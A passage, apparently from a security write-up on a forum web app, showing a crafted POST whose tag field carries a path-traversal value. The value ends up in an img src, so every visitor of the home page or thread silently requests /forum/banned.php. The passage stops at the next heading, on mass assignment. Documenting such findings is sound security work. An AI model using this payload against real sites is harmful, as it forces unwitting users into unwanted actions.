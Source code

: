 ```http
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYLW5lMEhzb1FoeG9IdUVMd0FBNlM5alRzbQAAAAlwb3N0ZXJfaWRtAAAAJDMxYTY5MWZiLTFlYmQtNDk4MS04MmZmLWViZmQ0ODNmYTRlY20AAAAJdGlja2V0X2lkYQE.lSVajs5dCr2AzQaf7unWeaQXxB_wdMrkW78CXfGbPiY
Connection: close

_csrf_token=HgUrY3wUV2QkFBwRPwEmDSYXcitSPwwC3kNS4g85LlsYJDjzgVDxkUXq&title=payload-test&tag=../../../../../../forum/banned.php&content=body+test
```

![](attachments/gilroy-6.png)
![](attachments/gilroy-7.png)

From now, anyone visiting the home page or the `payload-test` thread, will issue a GET request to `/forum/banned.php`

```html
</thead><!-- </GilroyWeb.ForumComponents.thread_header> -->
  <tbody>
    <!-- <GilroyWeb.ForumComponents.thread_row> lib/gilroy_web/components/forum_components.ex:145 --><tr class="thread" id="b6b4c91c-e48d-44c5-b487-3cd7b8b3cb90">
  <td class="tag"><img src="/images/posticons/../../../../../../forum/banned.php" alt="../../../../../../forum/banned.php"></td>
  <td class="title">
    <a href="/forum/showthread.php?threadid=b6b4c91c-e48d-44c5-b487-3cd7b8b3cb90">payload-test</a>
  </td>
```

## Mass Assignment in newuser.php and signup.php
